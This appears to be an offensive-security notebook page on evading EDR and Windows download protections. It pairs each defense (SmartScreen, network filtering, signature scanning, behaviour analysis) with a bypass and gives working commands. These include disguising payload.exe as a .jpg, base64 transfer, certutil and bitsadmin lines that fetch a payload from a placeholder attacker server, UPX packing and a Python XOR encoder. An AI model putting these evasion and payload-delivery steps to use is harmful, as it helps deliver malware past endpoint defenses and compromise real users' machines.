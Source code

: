 ## **1. How EDR Prevents Downloads & Bypass Methods**

| **Prevention Mechanism**            | **Detection Method**                              | **Bypass Technique**                                |
| ----------------------------------- | ------------------------------------------------- | --------------------------------------------------- |
| **Browser Blocking**                | Flags suspicious downloads in Chrome, Edge        | Change file extension, Use HTTPS                    |
| **Windows Defender SmartScreen**    | Blocks unsigned or unknown executables            | Digitally sign the file, Modify file metadata       |
| **EDR Network Filtering**           | Detects downloads from untrusted URLs             | Use VPN, proxy, or trusted cloud storage            |
| **File Hash or Signature Scanning** | Compares downloaded files to known malware hashes | Modify binary structure, Use packing or obfuscation |
| **Process Behavior Analysis**       | Detects suspicious file execution behavior        | Use LOLBins like certutil or bitsadmin              |


---

## **2. Mermaid Diagram: Download Prevention & Evasion**
```mermaid
graph TD
    A[User Attempts to Download File] -->|Browser Security SmartScreen SafeBrowsing| B[Blocked by Browser]
    A -->|EDR Network Filtering| C[Blocked by Firewall or EDR]
    A -->|Windows Defender Scanning| D[Blocked by Signature Detection]
    A -->|Process Behavior Analysis| E[Blocked by AMSI]

    B -->|Use HTTPS Rename File| F[Bypass Browser Security]
    C -->|Use VPN or Proxy| G[Bypass Firewall or EDR]
    D -->|Modify Binary Signature| H[Bypass Signature Detection]
    E -->|Encode Payload Use LOLBins| I[Bypass AMSI]
```



### **3. Table: Bypass Methods for Each Prevention Mechanism**

| **Prevention Mechanism**         | **Bypass Method**                              | **Example Command or Technique**                  |
|----------------------------------|-----------------------------------------------|--------------------------------------------------|
| **Browser Blocking**             | Use HTTPS and rename file                    | Rename `payload.exe` to `image.jpg`              |
| **Windows Defender SmartScreen** | Digitally sign the file                      | Sign the file using `signtool.exe`               |
| **EDR Network Filtering**        | Use a trusted cloud storage                  | Upload to Google Drive or Dropbox                |
| **File Hash or Signature Scanning** | Modify binary structure                      | Pack with UPX, encrypt sections, XOR encoding    |
| **Process Behavior Analysis**    | Use LOLBins for downloading payloads         | `certutil -urlcache -split -f http://server/payload.exe` |

### **4. Mermaid Diagram: Bypass Workflow**
```mermaid
graph TD
    A[Download Attempt] -->|Blocked by Browser| B[Use HTTPS Rename File]
    A -->|Blocked by EDR Firewall| C[Use VPN or Proxy]
    A -->|Blocked by Signature Check| D[Modify Binary Signature]
    A -->|Blocked by Process Behavior Analysis| E[Use LOLBins]
    
    B -->|Rename to .jpg .log .txt| F[Bypass Browser Security]
    C -->|Use Cloud Storage| G[Bypass Firewall]
    D -->|Pack Encrypt Obfuscate| H[Bypass Signature Detection]
    E -->|Use certutil bitsadmin| I[Bypass AMSI and Process Monitoring]
```

---

### **5. Practical Commands for Bypassing Download Prevention**
Attackers use **Windows-native binaries (LOLBins)** and **encoding techniques** to evade detection.

#### **1. Rename File Extensions**
Some browsers block `.exe` files but allow `.jpg` or `.txt`:
```sh
mv payload.exe image.jpg
```

#### **2. Base64 Encode the Payload**
Encode before transfer:
```sh
base64 payload.exe > payload.b64
```
Decode on the target:
```sh
cat payload.b64 | base64 -d > extracted.exe
```

#### **3. Use CertUtil for Download**
https://lolbas-project.github.io/#
CertUtil is a built-in Windows tool that can download and decode files:
```sh
certutil -urlcache -split -f http://yourserver/payload.exe payload.exe
```

#### **4. Use Bitsadmin for Stealthy Download**
Bitsadmin uses Microsoft’s Background Intelligent Transfer Service (BITS), often trusted by EDR:
```powershell
bitsadmin /transfer myJob http://yourserver/payload.exe C:\Users\Public\payload.exe
```

#### **5. Obfuscate the Payload**

Attackers often modify binary structures to avoid hash-based detections:
- **Packing with UPX**:
[Attack Computer/Attack Windows/3. EDR Evasion/1e.  Advanced UPX Methods for Modifying Binary Structure](<1e.  Advanced UPX Methods for Modifying Binary Structure.md>)
```sh
  upx-ucl -9 payload.exe
```
- **XOR Encoding**:

- [Attack Computer/Attack Windows/3. EDR Evasion/1a. AES, RC4, XOR encryption](<1a. AES, RC4, XOR encryption.md>)
  ```python
  key = 0x55
  encoded = bytes([b ^ key for b in open('payload.exe', 'rb').read()])
  open('encoded.bin', 'wb').write(encoded)
  ```

---

